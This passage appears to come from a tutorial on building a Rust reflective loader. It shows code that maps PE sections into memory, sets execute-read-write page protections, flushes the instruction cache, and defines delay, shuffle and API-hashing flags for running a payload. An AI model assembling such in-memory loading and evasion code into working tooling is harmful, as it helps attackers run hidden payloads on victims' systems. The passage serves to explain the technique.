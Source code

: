 ```rust
        }

        if is_executable {
            protection = PAGE_EXECUTE;
        }

        if is_executable && is_writable {
            protection = PAGE_EXECUTE_WRITECOPY;
        }

        if is_executable && is_readable {
            protection = PAGE_EXECUTE_READ;
        }

        if is_executable && is_writable && is_readable {
            protection = PAGE_EXECUTE_READWRITE;
        }

        // apply the new protection to the current section
        (far_procs.VirtualProtect)(
            dst_ptr as _,
            section_raw_size,
            protection,
            &mut old_protection,
        );
    }
}
```

An important final step for each section is to call `FlushInstructionCache` to ensure the CPU sees the changes made to the memory:

```rust
(far_procs.FlushInstructionCache)(-1, null_mut(), 0);
```

### Executing the payload

Finally, with the payload meticulously mapped into the memory, we are set to execute it.

The executed function (as well as the shuffle and sleep switches) depends on the value of the flag stored into the payload during shellcode generation:

```rust
const DELAY_FLAG: u32 = 0b0001;
const SHUFFLE_FLAG: u32 = 0b0010;
const UFN_FLAG: u32 = 0b0100;

const HASH_KEY: usize = 5381;

pub struct Flags {
    pub delay: bool,
    pub shuffle: bool,
    pub ufn: bool,
}
```
